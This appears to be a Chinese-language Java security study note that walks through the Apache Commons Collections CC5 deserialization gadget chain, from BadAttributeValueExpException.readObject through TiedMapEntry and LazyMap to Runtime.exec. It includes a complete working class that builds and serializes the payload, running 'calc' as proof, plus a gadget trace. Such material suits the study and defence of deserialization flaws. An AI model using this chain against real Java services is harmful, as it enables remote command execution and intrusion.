



# 09 · 反序列化链 · CC5

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；BadAttributeValueExpException 触发点，判前置时常遇到

CC5与第一个CC1链很像，只不过更换了`Lazy.get()`的调用方法

- 但是调用`get()`的方法太多了，还是根据作者的链来写EXP，作者选择的是`TiedMapEntry.toString()`

​	

- 跟进`getValue()`，其中调用了`get()`，其中`map`是下一个链的节点

​	

- 可以先写一部分代码证实链的可行性

  ```java
  Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
  Class<? extends Map> lazymapClass = lazymap.getClass();
  Method getMethod = lazymapClass.getDeclaredMethod("get", Object.class);
  getMethod.invoke(lazymap, chainedTransformer);
  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
  tiedMapEntry.toString();
  ```

- 然后是找到`toString()`的调用方法，最好在入口方法中，，作者选择的是`BadAttributeValueExpException.readObject()`

  

  - 看一下代码逻辑，valObject是通过val变量控制，通过反射修改此变量为下一个节点即可

    ```java
    //创建对象用于后面反射传入变量值
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
    Field valField = badAttributeValueExpExceptionClass.getDeclaredField("val");
    valField.setAccessible(true);
    valField.set(badAttributeValueExpException, tiedMapEntry);
    ```

- 完整代码如下

  ```java
  package CC5;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  
  import javax.management.BadAttributeValueExpException;
  import java.io.*;
  import java.lang.reflect.Field;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC5 {
      public static void main(String[] args) throws Exception{
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
          TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
  
          BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
          Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
          Field valField = badAttributeValueExpExceptionClass.getDeclaredField("val");
          valField.setAccessible(true);
          valField.set(badAttributeValueExpException, tiedMapEntry);
  
          serialize(badAttributeValueExpException);
          deserialize("ser5.bin");
  
      }
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser5.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  BadAttributeValueExpException.readObject()
  	TiedMapEntry.toString()
  	TiedMapEntry.getValue()
  		LazyMap.get()
  			ChainedTransformer.transform()
                      ConstantTransformer(Runtime.class)
                      InvokerTransformer.transform()
                          Class.getMethod
                          gerMethod.getRuntime()
                          Runtime.getRuntime().exec()
  ```
